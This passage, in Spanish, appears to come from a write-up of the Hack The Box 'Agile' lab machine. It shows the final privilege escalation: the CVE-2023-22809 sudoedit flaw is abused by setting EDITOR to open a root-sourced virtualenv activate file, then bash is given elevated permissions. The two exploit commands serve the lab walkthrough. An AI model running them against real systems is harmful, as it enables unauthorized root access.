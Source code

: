 Si buscamos algun exploit con el binario **"sudoedit"**, nos toparemos con el **[CVE-2023-22809]**, este nos indica que necesitaremos una variable de entorno... Por lo que usaremos la herramienta **PSPY64** para hallarla.

![](/assets/img/HTB_Agile/A28.png)

Por lo que nos quedaria explotar esto a nuestro favor usando:

```bash
export EDITOR="vim -- /app/venv/bin/activate"
```
Seguido de:
```bash
sudo -u dev_admin sudoedit /app/config_test.json 
```
![](/assets/img/HTB_Agile/A29.png)

Le asignamos permisos a la bash y con esto concluiriamos la machine.

![](/assets/img/HTB_Agile/A30.png)
